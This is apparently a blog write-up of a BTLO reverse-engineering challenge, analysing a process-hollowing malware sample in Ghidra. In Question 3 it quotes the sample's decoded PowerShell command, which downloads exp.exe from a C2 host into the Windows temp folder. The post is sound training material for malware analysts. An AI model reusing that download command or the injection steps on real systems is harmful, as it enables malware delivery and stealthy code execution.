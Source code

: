 ```yaml
---
layout: post
title: Injection series part 4
date: '2023-10-04 15:09:52 +0800'
image: /assets/img/cover_images/27.png
categories: [BTLO, Reverse Engineering]
tags: [Reverse Engineering, BTLO, Malware]
---
```


## Injection Series Part 4
Reverse engineer the given file and understand the behavior. You can use any disassembler you like to complete this challenge. 


## Question 1 : What is the process that would be first spawned by the sample? And what is the API used?

I'll be using my favourite reverse engineering tool Ghidra you can use any other tool of your choice.

![img-description](/assets/img/injection-part4/ghidra1.png)

We see the entry function and now we move to the next function

![img-description](/assets/img/injection-part4/ghidra2.png)

We locate the main function by the return value. Since the main function must return something that's how we locate the code that was written by the developer.

![img-description](/assets/img/injection-part4/ghidra3.png)

We are now able to locate the API used and the process first spawned

## Question 2 : The value 4 has been pushed as a parameter to this API, what does that denote? (Format: FLAG)

![img-description](/assets/img/injection-part4/ghidra4.png)

we can see the value 4 passed in CreateFileA Api call so we will do some google search on that function

![img-description](/assets/img/injection-part4/proc.png)

we get the parameter being passed and search it's function

![img-description](/assets/img/injection-part4/getproc.png)

## Question 3: What is the domain that the malware tries to connect? (Format: domain.tld)

We notice a powershell script executed in the code

![img-description](/assets/img/injection-part4/ghidra5.png)

so we try to decode

![img-description](/assets/img/injection-part4/cyberchef.png)

``` bash
Invoke-WebRequest -Uri http://somec2.server/exp.exe -OutFile c:\\windows\\temp\\exp.exe
```
we see the domain from the code

## Question 4: What is the cmdlet used to download the file and what is the path of the file stored? (Format: CMDLET, path) 

We already have all the details from the code in question 3

## Question 5: Just after the file download instructions, a function from ntdll has been loaded and invoked by the sample. What is the function name? (Format: Function)

We can see the function invoked in the code below

![img-description](/assets/img/injection-part4/ghidra6.png)

## Question 6: After the allocation of memory and writing the date into the allocated memory. What are the 2 APIs used to update the entry point and resume the thread? (Format: API, API)

We can see the two APIs being used for threading

![img-description](/assets/img/injection-part4/ghidra7.png)

## Question 7: What is the MITRE ID for this technique implemented in this sample? (Format: TXXXX.XXX)

The malware first executes a process in suspended mode and then allocates some memory and write data into it. After that it resumes the process thread, which allows it to do malicious activities without being detected by antivirus programs. This is called process injection or hallowing

![img-description](/assets/img/injection-part4/mitre.png)